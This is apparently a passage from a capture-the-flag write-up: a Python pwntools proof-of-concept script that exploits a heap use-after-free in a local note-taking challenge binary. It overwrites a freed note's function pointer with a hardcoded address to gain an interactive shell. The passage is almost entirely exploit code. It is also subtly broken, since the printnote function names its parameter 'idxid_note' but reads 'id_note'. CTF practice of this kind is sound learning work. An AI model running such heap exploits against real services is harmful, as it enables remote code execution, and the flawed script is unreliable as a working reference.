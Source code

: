 **6.Script**
- PoC

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

host = "127.0.0.1"
port = 1234

sh = remote(host,port)

def addnote(size, content):
    sh.recvuntil(":")
    sh.sendline("1")
    sh.recvuntil(":")
    sh.sendline(str(size))
    sh.recvuntil(":")
    sh.sendline(content)


def delnote(id_note):
    sh.recvuntil(":")
    sh.sendline("2")
    sh.recvuntil(":")
    sh.sendline(str(id_note))


def printnote(idxid_note):
    sh.recvuntil(":")
    sh.sendline("3")
    sh.recvuntil(":")
    sh.sendline(str(id_note))


magic = 0x08048986

addnote(32, "AAAA")
addnote(32, "AAAA")
addnote(32, "AAAA")

delnote(0)
delnote(1)
delnote(2)

addnote(8, p32(magic))

printnote(1)

sh.interactive()
```